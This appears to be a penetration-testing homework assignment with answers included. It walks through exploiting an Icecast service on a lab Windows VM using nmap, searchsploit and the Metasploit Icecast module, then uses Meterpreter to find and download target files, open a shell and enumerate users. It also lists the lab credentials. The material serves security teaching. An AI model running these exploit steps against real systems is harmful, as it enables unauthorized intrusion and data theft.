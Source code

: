 # Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.


- The CEO claims to have passwords that are long and complex and therefore unhackable.
- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.
- The deliverable for this engagement will be in the form of a report labeled Report.docx.

### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
  - Then click Start Server.




### Reminders


- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.


### Scope


- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.


- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.


- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.


- Since you've already been provided access to the network, OSINT won't be necessary.

### Lab Environment
For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux root:toor

- Target machine: DVW10 IEUser:Passw0rd!


**NOTE:** You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
- The icecast application will launch.
- Click on Start Server.
- You are now ready to being the activity.


### Deliverable
Once you complete this assignment, submit your findings in the following document:

[Report.docx]


### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

  - Run the Nmap command that performs a service and version scan against the target.
  
    > Answer: nmap -sV 192.168.0.20


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
  - Run the SearchSploit commands to show available Icecast exploits.

    > Answer: searchsploit icecast


3. Now that we know which exploits are available to us, let's start Metasploit:
  - Run the command that starts Metasploit:

    > Answer: msfconsole


4. Search for the Icecast module and load it for use.
  - Run the command to search for the Icecast module:

    > Answer: search icecast



  - Run the command to use the Icecast module:
   **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

    > Answer: use 0





5. Set the RHOST to the target machine.


  - Run the command that sets the RHOST:

    > Answer: set RHOST 192.168.0.20





6. Run the Icecast exploit.
  - Run the command that runs the Icecast exploit.

    > Answer: run



  - Run the command that performs a search for the secretfile.txt on the target.

    > Answer: search -f secretfile.txt


7. You should now have a Meterpreter session open.


  - Run the command to performs a search for the recipe.txt on the target:

    > Answer: search -f recipe.txt



  - **Bonus:** Run the command that exfiltrates the recipe*.txt file:

    > Answer: download c:\Users\IEUser\Documents\Drinks.recipe.txt





8. You can also use Meterpreter's local exploit suggester to find possible exploits.


  - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell.

  > Answer: shell

C. Run the command that displays the target's computer system information:

  > Answer: sysinfo
